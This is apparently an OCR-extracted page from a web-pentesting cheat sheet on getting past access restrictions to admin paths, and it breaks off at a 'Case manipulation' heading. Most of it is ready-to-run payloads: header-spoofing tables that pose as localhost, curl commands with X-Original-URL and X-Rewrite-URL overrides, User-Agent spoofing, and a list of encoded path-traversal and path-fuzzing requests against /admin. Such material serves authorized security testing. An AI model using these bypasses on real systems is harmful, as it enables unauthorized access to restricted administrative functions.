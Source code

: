 | Header                    | Example Value              | Purpose / Notes                                         |
|---------------------------|----------------------------|---------------------------------------------------------|
| X-Original-URL            | /admin                     | Access restricted paths via rewritten URLs              |
| X-Rewrite-URL             | /admin                     | Similar to X-Original-URL; processed by some proxies    |
| X-Custom-IP-Authorization | 127.0.0.1                  | Spoof internal IP (localhost)                           |
| X-Forwarded-For           | 127.0.0.1                  | Spoof client IP to appear as localhost                  |
| X-Client-IP               | 127.0.0.1                  | Another way to impersonate internal IP                  |
| X-Host                    | localhost                  | Manipulate host-based access controls                   |
| Referer                   | http://trustedsite.com/    | Trick server into trusting the source of the request    |
Use the X-Original-URL or X-Rewrite-URL headers to override the requested path especially in systems using Nginx reverse proxies. For example:

curl -H “X-Original-URL: /admin” https://example.com/some-page
curl -H “X-Rewrite-URL: /admin” https://example.com/some-page
Bypass with Custom User-Agent
Some servers block requests from tools like Burp Suite or curl by inspecting the User-Agent header. Spoofing it to look like a real browser can help you slip past basic filters

Example:

curl -A "Mozilla/5.0 (Windows NT 10.0; Win64; x64)" http://example.com/private/
This tricks the server into thinking the request is from a normal browser, not an automated tool.

3. Path Fuzzing & Encoding
Many servers block direct paths like /admin but fail to detect encoded, modified or case-altered variants.

URL Encoding

curl -g --path-as-is "https://example.com/%2e%2e/admin"          # ../
curl -g --path-as-is "https://example.com/%2e%2e%2fadmin"        # ../admin
curl -g --path-as-is "https://example.com/%2e%2e%2f%61dmin"      # ../admin with 'a' encoded
curl -g --path-as-is "https://example.com/%2e%2e/%2e%2e/admin"   # ../../admin
curl -g --path-as-is "https://example.com/%2e%2e/%2fadmin"       # ..//admin
curl -g --path-as-is "https://example.com/%20/admin"             # space/admin
curl -g --path-as-is "https://example.com/%2e%2fadmin"           # ./admin
curl -g --path-as-is "https://example.com/admin%2f"              # admin/
curl -g --path-as-is "https://example.com/admin%252f"            # admin%2f (double encoded)
curl -g --path-as-is "https://example.com/admin%2e%2e%2f"        # admin../
path fuzzing

| Trick                       | Example                         | Purpose                                         |
|-----------------------------|---------------------------------|-------------------------------------------------|
| Add a trailing slash        |   /admin/                       | Bypass filters expecting exact match (`/admin`) |
| Add ..;/                    |   /..;/admin                    | Bypass via path confusion                       |
| Double slashes              |   //admin//                     | Bypass normalization rules                      |
| Add a dot at the end        |   /admin.                       | May trick poorly written regex or filters       |
| URL-encode the slash        |   /admin%2f                     | Evade path filters with encoding                |
| Add random extension        |   /admin.php, /admin.json       | Some servers ignore unknown extensions          |
| Backslashes or mixed slashes|   \admin, /admin\/              | Break or confuse path parsers                   |
| Trailing semicolon or space |   /admin;, /admin%20            | May confuse parsers or match loosely            |
| Unicode tricks              |   /admin%c0%af, /admin%ef%bc%8f | Unicode slash bypasses                          |
| Append junk param or fragment|  /admin?foo=bar#               | May bypass path-only checks                     |
Case manipulation

